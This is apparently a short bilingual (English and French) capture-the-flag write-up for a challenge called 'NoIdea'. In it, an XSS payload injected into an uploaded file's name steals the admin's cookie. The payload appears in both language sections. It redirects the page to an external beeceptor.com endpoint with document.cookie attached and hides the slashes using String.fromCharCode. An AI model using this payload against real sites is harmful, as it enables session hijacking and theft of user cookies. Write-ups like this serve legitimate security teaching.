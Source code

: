 # NoIdea Chall WU

## English

File upload with an injection in the name of the file to get an XSS. The XSS injection gives you a way to get the admin's cookies (flag).

Payloads :
- ``<img src=y onerror=window.location='https:'+String.fromCharCode(47)+String.fromCharCode(47)+'<endpoint>.free.beeceptor.com?a='+document.cookie>.txt``

Little troll : you got rickrolled when you are using a source with the image "x".

## Français

Upload d'un fichier avec une injection dans son nom pour réaliser une XSS. L'injection XSS va nous permettre de récupérer les cookies de l'administrateur (flag).

Payloads :
- ``<img src=y onerror=window.location='https:'+String.fromCharCode(47)+String.fromCharCode(47)+'<endpoint>.free.beeceptor.com?a='+document.cookie>.txt``

Petit troll : si src=x, renvoie vers un gif de rick roll.

